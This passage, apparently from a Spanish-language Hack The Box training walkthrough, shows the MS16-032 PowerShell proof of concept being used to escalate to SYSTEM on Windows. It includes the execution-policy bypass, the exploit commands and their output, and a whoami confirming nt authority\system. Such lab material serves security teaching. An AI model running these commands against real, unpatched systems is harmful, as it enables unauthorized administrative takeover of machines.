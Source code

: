 Vamos a usar un [PowerShell PoC](https://www.exploit-db.com/exploits/39719) para intentar explotar esto y elevar nuestros privilegios.

```r
PS C:\htb> Set-ExecutionPolicy bypass -scope process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic. Do you want to change the execution
policy?
[Y] Yes  [N] No  [S] Suspend  [?] Help (default is "Y"): A
[Y] Yes  [N] No  [S] Suspend  [?] Help (default is "Y"): Y


PS C:\htb> Import-Module .\Invoke-MS16-032.ps1
PS C:\htb> Invoke-MS16-032

         __ __ ___ ___   ___     ___ ___ ___
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]

[?] Operating system core count: 6
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1656

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 1652
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!
```

### Spawning a SYSTEM Console

Esto funciona y generamos una consola cmd del sistema.

```r
C:\htb> whoami

nt authority\system
```

---